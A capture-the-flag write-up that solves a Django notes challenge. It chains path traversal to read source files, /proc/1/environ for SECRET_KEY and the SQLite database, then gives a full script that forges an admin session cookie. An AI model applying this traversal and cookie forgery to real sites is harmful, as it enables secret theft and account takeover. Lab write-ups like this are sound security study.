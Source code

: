 # To be named
Problem: https://hack.cert.pl/challenge/web-to-be-named

In this challenge we are given a simple website where we can save notes. Users can create new accounts, login, browse their notes and create new ones. It turns out that the most important endpoint, which we will use to solve the problem, is the `note` endpoint, which returns a note given it's title.

When a user logs in the server sets two cookies, `csrftoken` and `sessionid`. If one sends a POST request to `note` with `csrftoken` set to an arbitrary value, an error will be displayed.

![error](https://i.imgur.com/FMIT9rR.png)

Based on the design (and the `Debug=True` message) of the error page it is safe to assume that the application is powered by Django.

Requests to `note` contain a single parameter, `name`. A simple directory traversal attack reveals that the notes are actually stored in files without extensions, and the `name` parameter is not sanitised.

![dir traversal](https://i.imgur.com/PBdGoes.png)

The next step will be to view the contents of the most important Django project files. A typical Django project has the following structure:
+ /Project_name
  + /Project_name
    + settings.py
    + urls.py
    + wsgi.py
  + manage.py
  + /app_name
    + admin.py
    + views.py
    + ...

The most interesting files for solving the challenge are `views.py`, which contains the the app's route handlers, and `settings.py`, which contains the various Django settings.

Unfortunately we know neither the `Project_name` nor the `app_name`, so we will have to guess them. After sending a few requests I discovered that the `Project_name` is `app`, and the `app_name` is `notes`.

Here are a few interesting snippets from `views.py`:

```python
def get_notes_directory(username):
    return 'notes_upload/{}/'.format(hashlib.sha256(username.encode('utf-8')).hexdigest())


def is_admin(request):
    return request.user.username == 'admin'

[...]

@login_required
@require_POST
def note(request):
    name = request.POST.get('name')
    try:
        with open(get_notes_directory(request.user.username) + name, 'rb') as f:
            return HttpResponse(f.read())
    except (FileNotFoundError, IOError):
        raise Http404()
```

It turns out that users's notes are stored in directories that correspond to the SHA256 hash of their username. For example, the path where the administrator's (`admin`) notes are stored is `notes_upload/8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918/`. The flag is most likely located in that directory, however, we do not know it's name.

```python
@login_required
def notes(request):
    notes = listdir(get_notes_directory(request.user.username))
    return render(request, 'notes/notes_list.html', {'notes': notes})
```
We see that a simple listdir (`ls`) recovers the names of the notes of a given user, however, the username is taken from the session, so we will have to figure out a way to trick the server into thinking that our username is `admin`.

Let's have a look at `settings.py`:
```python
SECRET_KEY = os.environ["I_LIKE_TRAINS"]

[...]

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.sqlite3',
        'NAME': os.path.join(BASE_DIR, 'db.sqlite3'),
    }
}

SESSION_ENGINE = 'django.contrib.sessions.backends.signed_cookies'
```

We now know that this application is using signed cookies for session authentication, which means that a JSON object is serialised (pickled) and then cryptographically signed using the `SECRET_KEY`. If we can recover the `SECRET_KEY`, we will be able to forge session cookies and potentially gain access to the admin's account. We also see that the app is using SQLLite as it's database, this will be important later on.

The next step will be to recover the `SECRET_KEY`, which means we have to find the value of the `I_LIKE_TRAINS` environmental variable. After trying the `.bashrc`, `.bash_profile` and `.profile` files of the accounts in `/etc/passwd` and finding that they do not exist (most probably the environmental variables are set at runtime as the app is launched in a secure container), I turned to the magical resources of `/proc`. Accessing `/proc/1/environ`, which contains the environmental variables passed into the application with a `PID` of 1, revealed the value of `I_LIKE_TRAINS`.

![Ilovetrains](https://i.imgur.com/rNPzplF.png)

Now that we know the value of the SECRET_KEY, let's try deserialising a session cookie (using `django.core.signing`):

![fail](https://i.imgur.com/bBZbcV1.png)

As you can see, `signing.loads` throws a `BadSignature` exception, meaning that something is not right. To find out what is wrong we have to dive into Django's source code to see how session cookies are created. `django/contrib/sessions/backends/signed_cookies.py` reveals the problem:

```python
def _get_session_key(self):
        return signing.dumps(
            self._session, compress=True,
            salt='django.contrib.sessions.backends.signed_cookies',
            serializer=self.serializer,
        )

```

As we can see, the session cookies are additionally salted. If we include the same salt when deserialising the session cookie, everything works correctly:

![yay](https://i.imgur.com/TLPJqBo.png)

This reveals that the session cookie contains the users's unique ID (presumably changing it will allow us to access other user accounts), a `_auth_user_backend` value which does not really concern us, and a `_auth_user_hash`, which we will also have to modify to access a different account. Once more we resort to Django's source code to find out what `_auth_user_hash` is, or more importantly, what is it a hash of.

(fragments of [django/contrib/auth/\__init__.py](https://github.com/django/django/blob/master/django/contrib/auth/__init__.py))
```python
HASH_SESSION_KEY = '_auth_user_hash'
[...]

def login(request, user, backend=None):
  [...]
  session_auth_hash = ''
    if user is None:
        user = request.user
    if hasattr(user, 'get_session_auth_hash'):
        session_auth_hash = user.get_session_auth_hash()

  [...]

  request.session[HASH_SESSION_KEY] = session_auth_hash
```

`_auth_user_hash` is the value returned by `user.get_session_auth_hash()`. [Django/contrib/auth/base_user.py](https://github.com/django/django/blob/master/django/contrib/auth/base_user.py) finally reveals what we are dealing with:

```python
def get_session_auth_hash(self):
        """
        Return an HMAC of the password field.
        """
        key_salt = "django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash"
        return salted_hmac(key_salt, self.password).hexdigest()
```

`_auth_user_hash` is actually the HMAC hash of the hash of the user's password. If we want to gain access to the administrator's account, we will have to find his password hash. This is where the SQLLite database steps in. After downloading it (using CUrl's very handy --output flag) and viewing it we not only find the administrator's password hash, but also his user ID.

![db](https://i.imgur.com/mETyf6o.png)

Now all that is left to do is to generate a session cookie that belongs to the administrator. I wrote a simple script to do that:

```python
import django.core.signing as signing
import django
from django.utils.crypto import salted_hmac
from django.conf import settings

settings.configure()

settings.SECRET_KEY = '@cHu_ChU-chU!!!'
passwordHash = 'pbkdf2_sha256$100000$PciiyrqGTHyQ$2cO66Q/7vQMRysIWOlzkjv2dhf8FLHT5XWR/LjMxD3U='
authUserHash = salted_hmac("django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash", passwordHash).hexdigest()

sessionObject = {
	'_auth_user_id': '1',
	'_auth_user_backend': 'django.contrib.auth.backends.ModelBackend',
	'_auth_user_hash': authUserHash
}

sessionCookieValue = signing.dumps(
	sessionObject,
	compress=True,
	salt='django.contrib.sessions.backends.signed_cookies'
)

print(sessionCookieValue)
```

After setting this new cookie using Chrome's Dev Tools and refreshing the page I gained access to the administrator's account and to the flag.

I really enjoyed solving `To be named`, as I learned a lot about how Django works under the hood. I am also pleased to say that nobody was injured by trains coming out of nowhere.

